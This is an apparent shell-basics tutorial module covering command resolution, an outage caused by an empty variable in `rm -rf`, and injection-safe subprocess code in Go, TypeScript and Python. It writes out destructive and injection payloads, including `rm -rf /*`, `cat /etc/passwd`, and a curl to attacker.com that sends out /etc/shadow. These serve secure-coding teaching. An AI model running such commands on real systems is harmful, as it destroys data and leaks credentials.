


# Module 01: Shell Basics and Unix Philosophy

> **Prerequisites:** Linux terminal environment (Ubuntu on WSL2, native Linux, or macOS).  
> **Estimated Reading Time:** 25 minutes  
> **Target Audience:** Backend Engineers, Site Reliability Engineers, Platform Architects.

> [!TIP]
> **The Golden Rule of the Unix Shell:** The terminal displays characters; the shell parses tokens and expands expressions; the kernel executes binaries and allocates resources. Never treat command strings as monolithic incantations—always deconstruct them into **Program/Builtin + Flags + Arguments + Standard Streams**.

---

## 1. Architectural Mental Model: The Four Layers of Execution

When you type a command and hit `Enter`, your keystrokes traverse four distinct operating system layers before machine instructions execute:



### The Life of a Command Line
1. **Tokenization:** Bash splits the input line by whitespace into words and operators.
2. **Expansion:** Parameter expansions (`$VAR`), command substitutions (`$(date)`), arithmetic expansions (`$((1 + 2))`), and pathname expansions (`*.log`) occur strictly **before** the command executes.
3. **Redirection:** File descriptor streams (`<`, `>`, `2>&1`, `|`) are established.
4. **Resolution:** Bash checks if the command is an alias, a shell function, a builtin, or an external binary located along `$PATH`.
5. **Execution:** If external, Bash calls `fork()` to create a child process followed by `execve()` to load the ELF binary into new memory space.

---

## 2. Taxonomic Comparison: Command Types & Resolution Precedence

When you type a command name, Bash searches for matches in a rigid hierarchical order. Understanding this hierarchy prevents accidental command shadowing:

| Precedence | Command Type | Where it Runs | Inspection Command | Examples |
| :--- | :--- | :--- | :--- | :--- |
| **1. Highest** | **Alias** | Shell parser text replacement | `alias <name>` | `alias ll='ls -la'` |
| **2.** | **Shell Reserved Word** | Shell syntax parser | `type <keyword>` | `if`, `then`, `while`, `function` |
| **3.** | **Shell Function** | Shell process memory | `type -a <func>` | Custom functions defined in `~/.bashrc` |
| **4.** | **Shell Builtin** | Shell process memory (no `fork()`) | `type <builtin>` | `cd`, `pwd`, `export`, `exit`, `history` |
| **5. Lowest** | **External Executable** | Spawned child process via `fork()` + `execve()` | `type -a <bin>`<br>`which <bin>` | `/usr/bin/grep`, `/bin/ls`, `/usr/bin/git` |

### Why `cd` Must Be a Builtin
If `cd` were an external binary program on disk (e.g., `/bin/cd`), the shell would `fork()` a new child process to execute it. The child process would change its own current working directory and immediately terminate. The parent shell process would remain in its original directory! Therefore, commands that modify shell environment state (`cd`, `export`, `set`, `umask`) must execute directly inside the shell process itself.

---

## 3. Systematic Reference: Command Documentation Systems

Never guess CLI flags in production. Use the appropriate documentation tool based on command type:

| Tool | Target Command Scope | Primary Command | Search Shortcut |
| :--- | :--- | :--- | :--- |
| **Shell `help`** | Shell builtins and reserved words | `help cd`<br>`help export` | Text output directly to stdout |
| **GNU `--help`** | Quick flag summary for external binaries | `curl --help`<br>`grep --help` | Pipe to pager: `curl --help \| less` |
| **`man` (Manual Pages)** | Comprehensive system manual (system calls, C libs, CLI tools) | `man 1 ls`<br>`man 2 open` | `/keyword` to search, `n` for next, `q` to exit |
| **`type -a`** | Reveals every implementation of a command name | `type -a echo` | Displays whether alias, builtin, or disk binary |
| **`command -v`** | POSIX-compliant locator for scripts | `command -v jq` | Returns path or empty string (silent return code) |

---

## 4. Production War Story: The Unquoted Expansion Production Disaster



### The Incident
During an automated release to a Kubernetes staging cluster, a microservice cleanup script was executed to clear out old log directories. Within seconds, the host container engine died, all API replicas crashed, and SSH nodes reported `connection closed by remote host`.

### The Post-Mortem Data
* **Severity:** SEV-1 (Critical Infrastructure Outage)
* **Mean Time to Detect (MTTD):** 3 minutes (health checks flatlined)
* **Mean Time to Resolution (MTTR):** 115 minutes (cluster redeployment from Terraform)

### The Root Cause
The cleanup script contained:
```bash
rm -rf $LOG_DIR/*
```
Because a previous environment variable export command failed silently, `$LOG_DIR` evaluated to an empty string `""`. The shell expanded `$LOG_DIR/*` into `/*`. The utility executed:
```bash
rm -rf /*
```
The command systematically deleted `/bin`, `/etc`, `/lib64`, and `/usr`, destroying the operating system.

### The Fix & Architectural Hardening
1. **Defensive Shell Header:** Every production shell script must enforce strict error trapping:
```bash
set -euo pipefail
```
   * `-e`: Exit immediately if any command exits with a non-zero status.
   * `-u`: Treat unset variables as an immediate fatal error rather than expanding to empty strings.
   * `-o pipefail`: Propagate failures through command pipelines.
2. **Defensive Parameter Expansion Guard:**
```bash
# Crash with an explicit error message if LOG_DIR is empty or undefined
rm -rf "${LOG_DIR:?FATAL: LOG_DIR variable is not defined or is empty}"/*
```

---

## 5. Multi-Language Production Code: Safe Command Execution

In production backend engineering, **never** execute raw commands by concatenating unsanitized strings into a shell. Doing so creates arbitrary shell injection vulnerabilities. Always use array-based parameter execution without a shell intermediary.

### Go (`os/exec`)
```go
package main

import (
	"bytes"
	"context"
	"fmt"
	"os/exec"
	"time"
)

// RunSecureCommand executes a binary directly without spawning an intermediary shell (/bin/sh).
// This guarantees that arguments containing spaces, semicolons, or backticks cannot cause command injection.
func RunSecureCommand(ctx context.Context, binary string, args ...string) (string, error) {
	cmd := exec.CommandContext(ctx, binary, args...)

	var stdout, stderr bytes.Buffer
	cmd.Stdout = &stdout
	cmd.Stderr = &stderr

	err := cmd.Run()
	if err != nil {
		return "", fmt.Errorf("command '%s %v' failed (%w): %s", binary, args, err, stderr.String())
	}

	return stdout.String(), nil
}

func main() {
	ctx, cancel := context.WithTimeout(context.Background(), 5*time.Second)
	defer cancel()

	// Safe: Untrusted user input is passed strictly as a data argument, not shell tokens
	userInput := "api-service; rm -rf /"
	output, err := RunSecureCommand(ctx, "grep", "-rnw", "/var/log", "-e", userInput)
	if err != nil {
		fmt.Printf("Search completed with code: %v\n", err)
	}
	fmt.Printf("Grep Output: %s\n", output)
}
```

### Node.js / TypeScript (`child_process`)
```typescript
import { execFile } from 'child_process';
import { promisify } from 'util';

const execFileAsync = promisify(execFile);

interface CommandResult {
  stdout: string;
  stderr: string;
}

/**
 * Executes a binary safely using execFile.
 * Unlike exec(), execFile does NOT invoke /bin/sh by default,
 * completely neutralizing command injection vulnerabilities.
 */
export async function executeBinary(
  binary: string,
  args: string[],
  timeoutMs = 5000
): Promise<CommandResult> {
  try {
    const { stdout, stderr } = await execFileAsync(binary, args, {
      timeout: timeoutMs,
      maxBuffer: 1024 * 1024, // 1MB buffer cap
    });
    return { stdout, stderr };
  } catch (error: any) {
    throw new Error(
      `Execution of ${binary} failed with exit code ${error.code}: ${error.stderr || error.message}`
    );
  }
}

async function main() {
  const untrustedInput = "order_1234; cat /etc/passwd";
  try {
    // Arguments are passed as an isolated string array to execve(2)
    const result = await executeBinary('/usr/bin/find', ['/tmp', '-name', untrustedInput]);
    console.log('Result:', result.stdout);
  } catch (err: any) {
    console.error(err.message);
  }
}

main();
```

### Python (`subprocess`)
```python
import subprocess
from typing import List, Tuple

def execute_hardened_process(cmd_args: List[str], timeout_sec: int = 5) -> Tuple[int, str, str]:
    """
    Executes an external binary safely using subprocess.run without shell=True.
    Passing an argument list directly maps to execve() system calls.
    """
    try:
        # shell=False is the default and must be explicitly maintained
        proc = subprocess.run(
            cmd_args,
            shell=False,
            capture_output=True,
            text=True,
            timeout=timeout_sec,
            check=False
        )
        return proc.returncode, proc.stdout, proc.stderr
    except subprocess.TimeoutExpired as e:
        return -1, "", f"Command timed out after {timeout_sec}s: {str(e)}"
    except FileNotFoundError as e:
        return 127, "", f"Binary not found: {str(e)}"

if __name__ == "__main__":
    malicious_arg = "test.txt | rm -rf /"
    # Even with pipes and shell operators, find treats the string literally as a filename pattern
    code, out, err = execute_hardened_process(["/usr/bin/find", ".", "-name", malicious_arg])
    print(f"Exit Code: {code} | Error Stream: {err.strip()}")
```

---

## 6. Practical Hands-On Verification CLI Workflows

Execute these commands in your Ubuntu terminal to inspect and verify shell execution mechanics:

### Workflow 1: Inspect Command Resolution Hierarchy
Inspect how Bash resolves multiple instances of a command name:
```bash
# 1. Inspect 'type' for a builtin, an external binary, and an alias
type -a cd
type -a ls
type -a echo

# 2. Check the raw binary path using POSIX command -v
command -v ls
command -v cd
```
**Expected Output:**
```text
cd is a shell builtin
ls is aliased to `ls --color=auto'
ls is /usr/bin/ls
echo is a shell builtin
echo is /usr/bin/echo
/usr/bin/ls
```
*(Notice how `echo` exists both as a fast in-memory shell builtin and as a standalone `/usr/bin/echo` ELF binary on disk!)*

### Workflow 2: Observe Expansion Ordering vs. Execution
Observe how the shell evaluates arguments before the target program is ever invoked:
```bash
# 1. Print arithmetic and subshell expansion
echo "Today is: $(date +%Y-%m-%d) | Core calculation: $(( 64 * 1024 ))"

# 2. Check the exit status of the previous command ($?)
echo $?

# 3. Force an error and inspect the non-zero exit code
ls /nonexistent_directory_for_testing_123 2> /dev/null
echo $?
```
**Expected Output:**
```text
Today is: 2026-11-10 | Core calculation: 65536
0
2
```

### Workflow 3: Command History & Reverse Incremental Search
Master terminal keyboard navigation:
```bash
# 1. Create a memorable command
echo "PRODUCTION_CLUSTER_AUTH_TOKEN=alpha_omega_99"

# 2. Press Ctrl+R and type 'AUTH_TOKEN'
# The shell interactively searches your ~/.bash_history buffer and renders the match.
```

---

## 7. Operational Validation Checkpoint

<details>
<summary><strong>Question 1: The Broken Directory Change Script</strong></summary>

**Scenario:** A junior backend developer writes an executable shell script `switch-dir.sh`:
```bash
#!/usr/bin/env bash
cd /var/log/nginx
pwd
```
The developer makes it executable (`chmod +x switch-dir.sh`) and runs `./switch-dir.sh`. The terminal prints `/var/log/nginx`, but when the script finishes, the developer's shell is still in `/home/developer`!

Why did the working directory not change, and how can the script achieve the intended result?

**Answer:**
When an executable script is run as `./switch-dir.sh`, the parent shell invokes `fork()` and launches a **child subshell process**. The child process executes `cd /var/log/nginx`, successfully changes its own working directory, prints `/var/log/nginx`, and exits. A child process cannot modify the memory or working directory of its parent process.

**The Fix:** To execute commands directly within the current shell's process context, **source** the script using `source switch-dir.sh` or `. switch-dir.sh`.
</details>

<details>
<summary><strong>Question 2: Hidden Injection via Shell String Evaluation</strong></summary>

**Scenario:** A Node.js backend handles image conversion requests. The developer writes:
```javascript
const { exec } = require('child_process');
exec(`convert ${req.body.filename} output.png`);
```
An attacker submits the payload: `test.jpg; curl https://attacker.com/steal-keys?k=$(cat /etc/shadow)`.

Explain the vulnerability mechanism and the exact architectural fix.

**Answer:**
`child_process.exec()` invokes `/bin/sh -c` under the hood. The shell receives the entire string and parses the semicolon `;` as a command separator operator, followed by command substitution `$()`. The shell first executes `convert test.jpg`, and then immediately executes the attacker's `curl` command with elevated privileges.

**The Fix:** Use `child_process.execFile()` with an argument array:
```javascript
const { execFile } = require('child_process');
execFile('convert', [req.body.filename, 'output.png'], (err, stdout, stderr) => { ... });
```
In `execFile()`, no shell is created; the kernel's `execve()` receives the filename as a raw, literal string byte array, preventing command injection.
</details>

<details>
<summary><strong>Question 3: Silent Failures in Deployment Pipelines</strong></summary>

**Scenario:** A Docker container build script contains:
```bash
cat database_dump.sql | psql -U postgres -d production_db
echo "Database migration complete! Starting API..."
```
During a migration, `database_dump.sql` was corrupted and `psql` failed with a fatal syntax error. However, the build script continued, printed `Database migration complete!`, and deployed a broken database state.

Why did the script not stop, and what shell setting prevents this?

**Answer:**
In standard Bash, the exit status of a pipeline (`cmd1 | cmd2`) is solely determined by the exit code of the **last command in the pipeline** (`psql`). If `cat` fails or if an earlier stage crashes, the pipeline may report success if the final process terminates with code 0. Furthermore, standard Bash continues executing lines even if an individual command fails.

**The Fix:** At the start of all automation scripts, enable:
```bash
set -eo pipefail
```
* `-e`: Causes the script to terminate immediately if any command returns non-zero.
* `-o pipefail`: Causes a pipeline to return the exit status of the *last command to exit with a non-zero status*, ensuring failures in any piped stage abort execution immediately.
</details>

---

## Next Step

Now that you understand shell parsing, processes, and command execution, proceed to **[02 · Filesystem Navigation](../02-filesystem-navigation/README.md)** to master absolute vs. relative paths, directory structures, and the Linux Filesystem Hierarchy Standard.
